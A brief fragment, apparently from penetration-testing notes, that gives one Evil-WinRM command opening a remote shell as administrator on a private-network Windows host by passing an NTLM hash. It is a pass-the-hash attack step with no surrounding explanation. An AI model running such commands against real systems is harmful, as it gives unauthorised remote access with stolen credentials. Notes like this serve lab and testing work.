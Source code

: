 ## Evil-WinRM
```
evil-winrm -u administrator -H 'f60bec8b2cea3286e4649598dbcfe030' -i 172.16.1.15
```
